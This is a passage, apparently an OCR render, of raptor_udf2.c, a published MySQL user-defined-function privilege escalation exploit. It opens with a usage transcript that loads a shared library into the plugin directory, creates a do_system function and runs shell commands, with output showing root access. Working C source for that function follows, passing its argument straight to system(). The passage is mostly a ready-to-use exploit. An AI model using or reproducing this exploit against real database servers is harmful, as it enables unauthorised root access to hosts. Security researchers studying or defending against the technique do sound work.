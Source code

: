 ```c
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]
```
*raptor_udf2.c*
